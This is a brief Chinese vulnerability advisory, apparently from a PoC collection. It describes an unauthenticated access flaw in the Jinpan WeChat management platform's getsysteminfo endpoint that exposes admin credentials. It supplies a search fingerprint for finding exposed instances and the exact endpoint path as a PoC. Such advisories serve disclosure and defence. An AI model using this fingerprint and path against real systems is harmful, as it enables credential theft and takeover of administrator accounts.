 # 

# 金盘 微信管理平台 getsysteminfo 未授权访问漏洞

## 漏洞描述

金盘 微信管理平台 getsysteminfo接口存在未授权访问漏洞，攻击者通过漏洞可以获取账号密码信息，获取后台管理员权限

## 漏洞影响

金盘 微信管理平台

## 网络测绘

```
title="微信管理后台" && icon_hash="116323821"
```

## 漏洞复现

登陆页面

![image-20230828162340318](images/image-20230828162340318.png)

验证POC

```
/admin/weichatcfg/getsysteminfo
```

![image-20230828162351977](images/image-20230828162351977.png)
